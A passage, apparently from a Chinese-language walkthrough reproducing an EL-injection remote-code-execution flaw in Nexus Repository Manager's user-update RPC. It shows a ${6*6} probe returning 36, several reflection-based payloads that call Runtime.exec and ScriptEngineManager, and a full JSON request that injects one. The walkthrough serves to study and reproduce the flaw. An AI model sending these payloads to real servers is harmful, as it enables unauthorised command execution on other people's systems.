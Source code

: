 ```http
  "type": "rpc",
  "tid": 23
}
```

其中`"roles": ["${6*6}"]`中的`${6*6}`是我们注入的想要执行的EL表达式

5.发送POST请求之后，在返回的响应包中可以发现{ "roles": "Missing roles: [36]" }，其中返回的`[36]`，就说明表达式已经被执行了：

<img src="picture/nexus把roles的内容改为EL表达式.png" alt="nexus把roles的内容改为EL表达式" style="zoom:33%;" />

6.这说明EL注入漏洞确实存在并且可以利用，尝试通用payload：

```
//执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}

${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('calc')}

${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")
```

这里构造 远程 rce 有两种方式:

- 反射 invoke 调用 java.lang.Runtime exec
- 反射 newInstance 创建javax.script.ScriptEngineManager 脚本引擎

**invoke 可变参数** `invoke(Object obj, Object... args)` 在el 2.1表达式中不被支持，所以只看使用 `newInstance()` 无参构造出一个 类实例：

- 尝试反射 newInstance 创建javax.script.ScriptEngineManager 脚本引擎

  ```
  {"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"12","firstName":"Administrator","lastName":"User1","email":"admin@example.org","status":"active","roles":["${''.class.forName('javax.script.ScriptEngineManager')}"]}],"type":"rpc","tid":10}
  ```
